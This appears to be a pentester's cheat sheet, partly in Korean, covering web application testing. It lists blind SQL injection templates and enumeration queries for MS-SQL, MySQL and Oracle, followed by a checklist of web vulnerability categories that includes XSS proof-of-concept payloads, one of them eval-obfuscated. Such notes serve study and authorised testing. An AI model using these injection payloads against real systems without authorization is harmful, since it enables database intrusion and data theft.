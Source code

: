 <h2>[MS-SQL]</h2>  
# Shape  
``` sql
??' and substring((query), 1, 1) < 'a'--
```  

# get DB NAME  
db_name()  
  
# Get Table name  
``` sql
select top 1 name from sysobjects where xtype='U'
```

# Get Column name  
``` sql
select top 1 column_name from information_schema.columns where table_name = '[Table Name]'  
```
  
# Get Data  
``` sql
select top 1 [Column Name] from [Table Name]  
```
  
<h2>[MySQL]</h2>  
# Shape  
``` sql
???' and ascii(substr((query), 1, 1)) > 'a'#  
```


# Get Table Name
``` sql
select table_name from information_schema.tables where table_type='base table' limit 0,1  
                                                                                     ㄴ> 0번 째 테이블  
```
  
  
  
<h2>[Oracle]</h2>   
#Shape   
``` sql
and (ascii(SUBSTR(query),1,1))) > 1--  
```
  
#Get DB name   
``` sql
select DISTINCT owner FROM all_tables;  
```
  
#Get Table name   
``` sql
select table_name from all_tables;  
```
  
#Get Column name   
``` sql
select column_name from all_tab_columns where table_name='[table name]';
```

-----------------------------------------------------------------------------------
Row 갯수 파악

Limit 기능
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF  
`<img src="#" onmouseover="alert(1);">`  
`<img src="#" onerror="alert(1);">`  
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`  
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
